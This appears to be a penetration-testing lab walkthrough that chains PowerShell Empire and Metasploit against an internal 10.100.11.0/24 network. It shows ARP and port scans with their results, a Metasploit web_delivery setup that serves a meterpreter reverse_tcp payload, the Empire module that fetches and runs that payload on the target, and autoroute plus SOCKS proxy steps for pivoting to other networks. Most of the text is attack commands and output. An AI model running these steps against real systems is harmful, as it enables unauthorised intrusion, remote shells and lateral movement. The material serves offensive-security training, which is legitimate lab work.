 usemodule situation_awareness/network/arpscan
set CIDR 10.100.11.0/24
set Agent <agent number>
execute

- we discovered 2 hosts: 100 e 101

```powershell
	MAC               Address      
---               -------      
00:50:56:A0:4F:BC 10.100.11.1  
00:50:56:A0:13:FF 10.100.11.100
00:50:56:A0:53:98 10.100.11.101
00:50:56:A0:53:98 10.100.11.255
```

### now lets search for open ports
usemodule powershell/situational_awareness/network/portscan
set Hosts 10.100.11.100 = ip of the target found
set Agent <agent number>
execute

```powershell
Hostname      OpenPorts       
--------      ---------       
10.100.11.100 445,139,135,8443
```

### Passing the session to Metasploit, because we will need to do some Pivot
In Metasploit:
```powershell
use exploit/multi/script/web_delivery
set target 2 = powershell
set SRVHOST <kali ip>
set payload windows/meterpreter/reverse_tcp
set lhost <kali ip>
exploit -j
copy the URL
```

in Empire:
```powershell
usemodule code_execution/invoke_metasploitpayload
set URL <the URL from metasploit module>
set Agent <agent number>
execute
```

> here, we should get a meterpreter session 


in Metasploit:
we are dealing with different networks, so we will need to set an autoroute
```powershell
use post/multi/manage/autoroute
set session 1
run

use auxiliary/server/socks_proxy
set srvhost <kali ip>
run
```
